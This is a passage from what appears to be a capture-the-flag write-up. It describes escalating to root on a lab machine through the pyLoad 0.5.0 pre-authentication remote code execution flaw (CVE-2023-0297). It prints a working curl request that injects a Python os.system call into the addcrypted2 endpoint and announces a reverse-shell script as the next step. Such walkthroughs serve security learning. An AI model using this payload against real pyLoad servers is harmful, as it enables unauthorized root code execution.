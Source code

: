 The version of `pyload` running is `0.5.0`. On searching exploits for this version of payload, found the following website: https://github.com/bAuh0lz/CVE-2023-0297\_Pre-auth\_RCE\_in\_pyLoad , which showcased the RCE vulnerability on this version of `pyload`.

<figure><img src="../../.gitbook/assets/Untitled 22 (1).png" alt=""><figcaption></figcaption></figure>

We have found the exploit. Now we can modify it to our needs and run the exploit.

{% hint style="info" %}
Note: The above exploit can execute only one command at a time. Don’t try to chain a series of commands, it won’t work. Run the commands one by one.
{% endhint %}

First we are going to create a `[reverse.sh](http://reverse.sh)` shell file on the target machine in any directory, in this case we are using the `/tmp` directory. To do this run the following modified exploit:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/rev.sh\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:5000/flash/addcrypted2'

// Commands are URL encoded
```

If we run the above exploit, we can see that an error is thrown.

<figure><img src="../../.gitbook/assets/Untitled 23 (1).png" alt=""><figcaption></figcaption></figure>

But if we open another terminal and login to the target machine via SSH as `sau` and check the `/tmp` directory we can see that a `rev.sh` file is created with root permissions.

<figure><img src="../../.gitbook/assets/Untitled 24 (2).png" alt=""><figcaption></figcaption></figure>
